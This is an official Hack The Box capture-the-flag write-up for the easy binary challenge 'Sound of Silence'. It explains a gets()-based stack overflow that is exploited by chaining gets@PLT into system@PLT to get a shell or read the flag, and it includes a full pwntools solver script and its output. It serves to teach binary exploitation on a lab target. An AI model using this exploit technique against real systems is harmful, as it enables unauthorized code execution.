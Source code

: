 ![](assets/banner.png)



<img src="assets/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />    	<font size="10">Sound of Silence</font>

​		28<sup>th</sup> January 2024 / Document No. DYY.102.XX

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=green>Easy</font>

​		Classification: Official

 



# Synopsis

Sound of Silence is an easy difficulty challenge that features Buffer Overflow, calling the `gets` function to take as argument `system@PLT` and then enter there the string `bin0sh` to spawn shell. `ret2libc` or other techniques are not available because there is no function to print to `stdout`.

# Description

Navigate the shadows in a dimly lit room, silently evading detection as you strategize to outsmart your foes. Employ clever distractions to divert their attention, paving the way for your daring escape!

## Skills Required

- Basic `ROP`.

## Skills Learned

- Call `gets` with `system` as argument.

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   | 
| :---:      | :---:    | :---:   |
| **Canary** | ❌       | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ❌       | Randomizes the **base address** of the binary | 
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

The program's interface 

```console
~The Sound of Silence is mesmerising~

>> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[1]    212434 segmentation fault (core dumped)  ./sound_of_silence
```

As we can see, the program is pretty straightforward. It asks for input and then it `SegFaults` after `40` bytes. This seems like a very easy challenge, but the tricky part is that there are no functions to print to `stdout` to leak any addresses and perform classic `ROP` techniques.

### Disassembly

Starting with `main()`:

```c
void main(void)

{
  char local_28 [32];
  
  system("clear && echo -n \'~The Sound of Silence is mesmerising~\n\n>> \'");
  gets(local_28);
  return;
}
```

The program is really simple. There is an obvious `Buffer Overflow` with `gets(local_28)`. The only other function we can use it `system`. 

### Exploitation Path

We will overwrite the `return address` with the address of `gets@PLT` and we will pass as argument the address of `system@PLT`. Then, whatever we enter, will be the argument of `system`. It's obvious that we will enter the string `/bin/sh` in there to spawn shell. The character `/` is converted so instead of this, we will use `0`. On the other hand, we can skip shell and just call `system("cat flag*");`. The same issues occurs so we use `cat glag*` instead.

# Solution

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

fname = './sound_of_silence' 

LOCAL = False

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP} {PORT}\n')

e = ELF(fname)

payload = flat({0x28: p64(e.plt.gets) + p64(e.plt.system)})

r.sendlineafter('>> ', payload)

r.sendline('cat glag*')

print(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
```

```console
Running solver remotely at 0.0.0.0 1337

Flag --> HTB{n0_n33d_4_l34k5_wh3n_u_h4v3_5y5t3m}
```
